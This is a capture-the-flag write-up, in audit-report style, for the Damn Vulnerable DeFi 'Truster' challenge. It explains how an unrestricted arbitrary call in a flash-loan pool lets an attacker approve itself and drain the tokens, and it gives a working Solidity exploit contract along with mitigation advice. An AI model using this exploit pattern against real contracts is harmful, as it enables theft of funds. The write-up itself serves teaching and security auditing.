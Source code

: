 # Damn Vulnerable DeFi V4 - Truster

## Table of Contents

1. [Introduction](#introduction)
2. [Scope](#scope)
3. [Notes](#notes)
4. [Analysis](#analysis)

## Introduction

More and more lending pools are offering flashloans. In this case, a new pool has launched that is offering flashloans of DVT tokens for free.

The pool holds 1 million DVT tokens. You have nothing.

To pass this challenge, rescue all funds in the pool executing a single transaction. Deposit the funds into the designated recovery account.

## Scope

[Repository](https://github.com/NikolayPIvanov/damn-vulnerable-defi-v4)

- src/truster/TrusterLenderPool.sol

## Notes

### Win Condition

- Recover all funds and deposit them into the recovery address
- Achieve this in a single transaction

### Key Takeaway

- Contract uses trusted OpenZeppelin utility contracts like Address
- Contract uses Damn Vulnerable Token (DVT)
- Compares the balance before transfer and after transfer in order to make sure there was a repayment.
- Uses normal transfer of ERC-20, could use `safeTransfer`
- Calls arbitrary function on a passed address without restrictions. This is a code smell and can be used to exploit the contract in most scenarios.
- To satisfy the win condition, we should create an attacker contract

## Analysis

### [H-1] Calling arbitrary function on a any passed address can give approval for all funds in the pool

#### Description

A malicious actor can construct calldata so that the `TrustLenderPool` can give an approval to any address to spend of the funds, thus allowing the actor to steal the funds.

This is done by calling the `functionCall` function on any passed address.

```solidity
function flashLoan(uint256 amount, address borrower, address target, bytes calldata data)
    external
    nonReentrant
    returns (bool)
{
    ...
    target.functionCall(data);
    ...
}
```

We can easily construct data that is calling the `ERC20::approve` function on the DVT and allowing us to spend the full balance.

[Likelihood] - High

#### Impact

This can easily be done and the impact is critical as all the funds are stolen from the pool.

#### Proof of Concepts

- src/truster/TrusterExploiter.sol

1. Create a `TrusterExploiter` contract with logic inside the constructor
2. Forge encoded data that is calling the `ERC20::approve` function allowing the exploiter contract address to spend all the tokens in the pool.
3. Take a flashloan for 0 DVT (finding on its own) in order to skip before and after check. The borrower is the exploiter contract and the target is the DVT token.
4. The Pool transfers 0 DVT to the attacker contract, then calls the DVT with approve to give the attacker the full allowance.
5. Afterwards the attacker transfers the funds to the recovery address.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity =0.8.25;

import {DamnValuableToken} from "../DamnValuableToken.sol";
import {TrusterLenderPool} from "./TrusterLenderPool.sol";

contract TrusterExploiter {
    uint256 constant TOKENS_IN_POOL = 1_000_000e18;

    constructor(DamnValuableToken _token, TrusterLenderPool _pool, address _recovery) {
        bytes memory data = abi.encodeWithSelector(_token.approve.selector, address(this), TOKENS_IN_POOL);

        _pool.flashLoan(0, address(this), address(_token), data);

        _token.transferFrom(address(_pool), _recovery, TOKENS_IN_POOL);
    }
}
```

#### Recommended mitigation

The intended use is to call the borrower contract to return the flashloan. Once simple mitigation would be to disallow to call the `token` as a target.

A more structured approach would be to implement ERC-3156 which includes
`IERC3156FlashBorrower` and `IERC3156FlashLender`.
This will allow to call only a designated function on a `IERC3156FlashBorrower` contract implementation.
